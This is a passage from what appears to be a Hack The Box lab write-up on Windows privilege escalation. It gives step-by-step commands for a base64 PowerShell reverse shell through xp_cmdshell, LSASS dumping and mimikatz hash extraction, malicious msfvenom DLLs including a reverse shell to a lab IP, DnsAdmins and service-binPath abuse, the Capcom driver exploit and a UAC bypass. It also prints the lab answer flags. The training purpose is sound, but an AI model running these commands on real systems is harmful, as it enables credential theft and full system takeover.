### Enter our listener (attacking pwnbox) IP and port

Now for the reverse shell payload – we will go to https://www.revshells.com
Enter our listener (attacking pwnbox) IP and port:

*the IP can be obtained with 'ifconfig' command on the pwnbox machine. *
And on the payload options we select: OS - windows, and 'PowerShell #3
(Base64)

In the screenshot we can see on the bottom right the beginning of the payload.

From the payload, we copy ONLY the base64 string (omitting the part of
'powershell -e'):


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


*_Figure 13.4 — Lab execution and output verification (Page 13)_*


### And now back to the sql-based shell, we enter the command

#### Technical Methodology & Exploit Execution:

xp_cmdshell powershell -e "<base64 payload here>"
as we can see, the copied base64 payload are within quotation marks, that's
why a we could not direct copy the 'powershell -e' as well.
* xp_cmdshell should be enabled by default, if it isn't, run
'enable_xp_cmdshell' (no need for 'RECONFIGURE' as Impacket does this for
us). *

Once the command is run – we should have a reverse shell:

We have a reverse shell (a powershell one).

Now, lets run on the reverse shell:
```bash
whoami
whoami /priv
```
the first command for who we are, the second command is for what privileges
we have:


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


### Lets open a second netcat listener, running on port 4445


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


### *The IP and port are built in to the code. *

#### Technical Methodology & Exploit Execution:

type c:\Users\Administrator\Desktop\SeImpersonate\flag.txt


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


*_Figure 16.4 — Lab execution and output verification (Page 16)_*


### SeDebugPrivilege

> **Lab Question (Page 17)**: Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm_svc account.
>
> **Flag / Answer**: `64f12cddaa88057e06a81b54e73b949b`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we login with the usual RDP to the target Windows machine
with the provided credentials (in there the user is 'jordan'.
Now, open powershell as ADMINISTRATOR and run:
```bash
whoami /priv
```
and we can see we have 'SeDebugPrivilege'

'SeDebugPrivilege' is a privilege that allows the user access to other process,
including those  they do not own. This is a powershell right as it can be used to
capture sensitive information from system memory, or access/modify kernel
and application structures.

We will use the privilege to dump process memory of the process LSASS - Local
Security Authority Subsystem Service , which stores user credentials after a
user logs on to a system.

Now we will use the SysInternal tool 'ProcDump' located inin C:\Tools
```bash
cd C:\Tools\Procdump
```
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp
The tool will dump the memory of the LSASS process to a output file


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


### And we have an output file 'lsass.dmp'

And we have an output file 'lsass.dmp':

Move the 'lsass.dmp' file to the folder 'C\Tools\Mimikatz\x64\':
mv .\lsass.dmp C:\Tools\Mimikatz\x64
```bash
cd C:\Tools\Mimikatz\x64
```
ls
We will use it with mimikatz:

And the mimikatz CLI is activated:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


*_Figure 18.4 — Lab execution and output verification (Page 18)_*


### And lets run the mimikatz commands

And lets run the mimikatz commands:
log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
and we are presented with the start of the output:

The 'log' commands, output all the output to 'mimikatz.log' file, the
'sekurlsa::minidump lsass.dmp; sekurlsa::logonpasswords' commands make
sure to extract the users relevant logins data  from 'lsass.dmp'
So, in short – the commands take the raw logins data from lsass.dmp, and
outputs the extracted data it to mimikatz.log.
Let's open the file, and search for 'sccm_svc' account:

Here (red arrow) is the NTLM hash of 'sccm_svc'.


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### SeTakeOwnershipPrivilege

> **Lab Question (Page 20)**: Leverage SeTakeOwnershipPrivilege rights over the file located at "C:\TakeOwn\flag.txt" and submit the contents.
>
> **Flag / Answer**: `1m_th3_f1l3_0wn3r_n0W!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets RDP login to the target windows machine.
Now, open powershell as ADMINISTRATOR and run:
```bash
whoami /priv
```
we have 'SeTakeOwnershipPrivilege'

Meaning this right can grant ownership to the user to any object within the
machine.
However as we can notice – the privilege is disables.
Lets enable it with the tool 'Enable-Privilege.ps1' – we will find it in C:\Tools:
```bash
cd C:\Tools
Import-Module .\Enable-Privilege.ps1
```
.\EnableAllTokenPrivs.ps1
Then we run again
```bash
whoami /priv
```
to confirm the privilege is enabled.

Ok good the privilege is enabled.


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### information about it, we will use the command

#### Technical Methodology & Exploit Execution:

Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select
Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression=
{ (Get-Acl $_.FullName).Owner }}


There is some information, but the owner value is missing (probably due to lack
of permission). Lets try to get some information on the parent folder, we will
```bash
use the command:
```
cmd /c dir /q 'C:\TakeOwn'
(run cmd from powershell, and with '\q' – look for the folder owners

The owner of the directory is 'sccm_svc'.

We will change ownership of the file with the command:
takeown /f 'C:\TakeOwn\flag.txt'
'/f' stands for the target file or folder to take ownership.


Lets run again
Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select
Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression=
{ (Get-Acl $_.FullName).Owner }}to confirm the folder ownership
change
To confirm change of file's ownership


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### We will run the command

#### Technical Methodology & Exploit Execution:

icacls 'C:\TakeOwn\flag.txt' /grant htb-student:R
now our user should have reading permissions to the file:

*We can replace R with F if we want to grant full permissions. Further info can
be found here. *

Now we can run
```bash
cat C:\TakeOwn\flag.txt
```
to get the flag:


We can also use the GUI as well:


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


*_Figure 22.4 — Lab execution and output verification (Page 22)_*


*_Figure 22.5 — Lab execution and output verification (Page 22)_*


### Windows Built-in Groups

> **Lab Question (Page 23)**: Leverage SeBackupPrivilege rights and obtain the flag located at c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt
>
> **Flag / Answer**: `Car3ful_w1th_gr0up_m3mberSh1p!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

connect with RDP to the windows target machine.
Now for this category lets learn a new command:
```bash
whoami /groups
```
the command displayes the groups our user is member of:

We will notice that the user belongs to the group 'Backup Operators'.
Membership in this group grants its users the priveleges of 'SeBackupPrivilege'
and 'SeRestorePrivilege'. We will use the tool 'SeBackupPrivilege' to exploit
them to obtain privilege escelation. in the target machine it is built in 'C:\Tools':

Lets run the commands
```bash
cd C:\Tools
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
To import the modules


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


*_Figure 23.3 — Lab execution and output verification (Page 23)_*


### To confirm the privilege is indeed enabled

#### Technical Methodology & Exploit Execution:

Copy-FileSeBackupPrivilege
'c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt'
'c:\Users\svc_backup\Desktop\flag.txt'


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


### And here is the flag in our desktop

And here is the flag in our desktop:

Lets open it:


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


### Event Log Readers

> **Lab Question (Page 26)**: Using the methods demonstrated in this section find the password for the user mary.
>
> **Flag / Answer**: `W1ntergreen_gum_2021!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets RDP login to the windows target machine with the provided
credentials.
Then, we will run the powershell command:
wevtutil qe Security /rd:true /f:text | Select-String
"/user"
the command queries the Security event logs (within Windows Event Viewer),
in reverse chronological order ('/rd:true'), in text format ('/f:text'), and filter for
strings which contain 'user', the purpose of the command is to detect user
activities within the system:

Another other results – we will find mary's – she authenticated for a resource
(the folder 'DB01\scripts') within the share Z.


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


### DnsAdmins

> **Lab Question (Page 27)**: Leverage membership in the DnsAdmins group to escalate privileges. Submit the contents of the flag located at c:\Users\Administrator\Desktop\DnsAdmins\flag.txt
>
> **Flag / Answer**: `Dll_abus3_ftw!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets RDP login to the target Windows machine with the provided
credentials.
Now, lets run
```bash
whoami /groups
```
to see what groups our user is member of:

We take note on the 'DnsAdmins' group. Members of the group can access to
DNS information within the network. The DNS service is running on 'SYSTEM'
privileges, so we can use that to escalate our own.
For that lets go to the pwnbox (linux - (IP 10.10.15.166)) and use it to generate
malicious DLL payload to add our user 'netadm' to 'domain admins' group. We
will use the tool 'msfvenom' for that, and run the command:
msfvenom -p windows/x64/exec cmd='net group "domain admins"
netadm /add /domain' -f dll -o adduser.dll


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


### machine

#### Technical Methodology & Exploit Execution:

dnscmd.exe /config /serverlevelplugindll
C:\Users\netadm\adduser.dll


For the dll to be loaded to the dns service, we need to restart the service.

We will have to confirm out user has the permissions to do that - First we need
the users sid ('netadm' In our case), we will use the command
cmd /c 'wmic useraccount where name="netadm" get sid'
*'cmd /c' is for executing cmd command with powershell. *


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


*_Figure 28.3 — Lab execution and output verification (Page 28)_*


### using the command

#### Technical Methodology & Exploit Execution:

sc.exe sdshow DNS


The keyword is 'RPWP' which means we have RP=service start permissions, and
WP=service stop permissions. For further reading.

Good – we can restart the service, lets restart it:
cmd /c 'sc stop dns'
cmd /c 'sc start dns'


Now  let's confirm our user was added to 'domain admins' group:
```bash
net group "Domain Admins" /dom
```


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


### again, we will use the command

#### Technical Methodology & Exploit Execution:

shutdown /l
the command will kick us off from the RDP ,
```bash
run the 'xfreerdp' command again and login.
```
When done – we will have access to the flag within admin folder:


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


### Print Operators

> **Lab Question (Page 31)**: Follow the steps in this section to escalate privileges to SYSTEM, and submit the contents of the flag.txt file on administrator's Desktop. Necessary tools for both methods can be found in the C:\Tools directory, or you can practice compiling and uploading them on your own.
>
> **Flag / Answer**: `Pr1nt_0p3rat0rs_ftw!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we RDP login to the windows target machine.
Then, on ADMINISTRATOR powershell - lets run:
```bash
whoami /priv
```
to check our privileges:

We have the privilege 'SeLoadDriverPrivilege' – a privilege that allows us to
modify printers connected to a Domain Controller, as well as the ability to log
on locally to a Domain Controller and shut it down.
However, currently its disabled.
Let's cd our way to tools, and see what we have:
```bash
cd C:\Tools
```
ls
we have several tools available for us in the target machine.


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


### tool, lets run it

We can see we have in out disposal 'EnableSeLoadDriverPrivilege' executable
tool, lets run it:
.\EnableSeLoadDriverPrivilege.exe


We see our necessary privilege had enabled.
Now, we will run ExploitCapcom:
.\ExploitCapcom\ExploitCapcom.exe
When running -  A system cmd-shell will spawned, lets run whoami in it:
```bash
whoami
```


We are system.
Let's run:
type C:\Users\Administrator\Desktop\flag.txt > output.txt
*The output redirection is essential because in the system-cmd terminal you
can't mark text for copy. *
The execution will create a file called 'output.txt' on where we run it (in this
case its 'C:\Tools') – that file will contain the command output – the flag, lets
open the file:

*NOTE – the section mentioned an additional step of adding a reference to the
drive within the registry editor, but in this task, it was not essential for task
completion therefore it was not included. For further info – go to the section
guide in the link at the begging of the writeup. *


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


*_Figure 32.3 — Lab execution and output verification (Page 32)_*


### Server Operators

> **Lab Question (Page 33)**: Escalate privileges using the methods shown in this section and submit the contents of the flag located at c:\Users\Administrator\Desktop\ServerOperators\flag.txt
>
> **Flag / Answer**: `S3rver_0perators_@ll_p0werfull!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we RDP login to the windows target machine.
Then – lets check our group with the cmd (also powershell can be used,but this
time we will use cmd):
```bash
whoami /groups
```
The group relevant for us in this case is 'Server Operators'


Then, we run the cmd command:
sc qc AppReadiness
to query the 'app-readiness' service for information:

The service starts as SYSTEM.


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


### 'C:\Tools'

#### Technical Methodology & Exploit Execution:

```bash
net localgroup Administrators
```


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


### Let's change that with the command

#### Technical Methodology & Exploit Execution:

sc config AppReadiness binPath= "cmd /c net localgroup
Administrators server_adm /add"
'server_adm' is our username. The command is expected to take a path to
executable, but here it takes the cmd command 'net localgroup Administrators
server_adm /add' on the executable path to run.
*AppReadiness is a services whose task is to execute certain application at
certain conditions (start up, user logon, ect..). *
So in our case the service is taking our user-adding to Administrarors group
cmd command instead of path to executable:


Now lets start the service:

Now – the service start up had failed (because its input is not a path), BUT - our
cmd command was executed, to confirm - lets check
```bash
net localgroup Administrators
```
again:


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


*_Figure 35.3 — Lab execution and output verification (Page 35)_*


### logging in, we will use the command

#### Technical Methodology & Exploit Execution:

shutdown /l
and RDP login again – when re-logged in, the administrative privileges of our
user will take place, and we can get our way to the flag:


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


### User Account Control

> **Lab Question (Page 37)**: Follow the steps in this section to obtain a reverse shell connection with normal user privileges and another which bypasses UAC. Submit the contents of flag.txt on the sarah user's Desktop when finished.
>
> **Flag / Answer**: `I_bypass3d_Uac!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to our target windows machine, with the
provided credentials.
We will use reverse shell to get the flag from the user's desktop.
There are several approaches it can be done, we will use the approach depicted
by the section.
We will begin in the linux attacker pwnbox – we will use 'msfvenom' to create a
malicious dll with the command:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.241
LPORT=4444 -f dll > srrstr.dll
